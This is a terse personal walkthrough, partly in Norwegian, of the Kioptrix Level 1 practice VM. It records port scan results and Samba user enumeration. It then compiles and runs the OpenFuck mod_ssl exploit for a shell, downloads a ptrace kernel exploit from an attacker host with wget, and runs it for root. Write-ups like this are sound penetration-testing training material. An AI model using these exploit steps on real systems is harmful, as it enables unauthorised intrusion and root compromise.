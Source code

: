## kioptrix 1

22,80,111,139,443,1024

22/tcp   open  ssh         OpenSSH 2.9p2 \(protocol 1.99\)

80/tcp   open  http        Apache httpd 1.3.20 \(\(Unix\) 139/tcp  open  netbios-ssn Samba smbd \(workgroup: MYGROUP\)

443/tcp  open  ssl/https   Apache/1.3.20 \(Unix\)  \(Red-Hat/Linux\) mod\_ssl/2.8.4 OpenSSL/0.9.6b

`enum4linux` Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

searchsploit openfuck

cd /usr/share/exploitdb/platforms/unix/remote

her ligger det mange exploits

[http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/](http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/)[openfuck](http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/)

gcc -o fuck openfuck.c -lcrypto

0x6b er for redhat linux med apache 1.3.20

./fuck 0x6b 10.0.0.12 443

**shell**

searchsploit kernel 2.4.7 redhat

Linux Kernel 2.2.x / 2.4.x \(RedHat\) - 'ptrace/kmod' Privilege Escalation        \| linux/local/3.c

wget 10.0.0.8/3.c

gcc -o lol 3.c

./lol = **root shell**

